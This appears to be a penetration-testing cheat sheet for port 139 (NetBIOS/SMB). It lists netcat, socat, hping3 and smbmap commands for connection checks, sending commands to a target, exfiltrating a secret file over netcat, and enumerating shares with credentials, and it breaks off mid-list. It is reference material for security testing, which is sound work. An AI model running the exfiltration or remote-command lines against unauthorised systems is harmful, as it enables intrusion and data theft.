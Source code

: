 #### \[\[NetCat]]

*   **Netcat TCP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 139
    ```
*   **Netcat UDP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 139 -u
    ```
*   **Execute Commands:** Execute commands on target.

    ```bash
    echo "<command>" | nc <target_ip> 139
    ```
*   **Exfiltrate Data:** Exfiltrate data over specified port.

    ```bash
    nc <target_ip> 139 < secret_data.txt
    ```

#### \[\[SoCat Cheat Sheet]]

*   **Socat TCP Connect:** Simple tests to verify port service is running and responding.

    ```bash
    socat - TCP:<target_ip>:139
    ```

#### \[\[HPing3 Cheat Sheet]]

*   **Send UDP Packet:** Send a single UDP packet to the service.

    ```bash
    hping3 -2 <target_ip> -p 139 -c 1
    ```

#### \[\[SMBMap]]

*   **Target Specification:**

    ```bash
    smbmap -H <target_ip> -d <target_domain> -u <username> -p <password> options
    ```
*   **Accessing Specific Shares:**

    ```bash
    -r <share>: Access a specific share on the remote system. 
    -s <share>: Specify a custom SMB share name for shares requiring authentication.
    ```
*   **Listing Shares:**

    ```bash
    -R: Recursively list directories and files in accessible shares.
    ```
*   **Loading Shares from a File:**
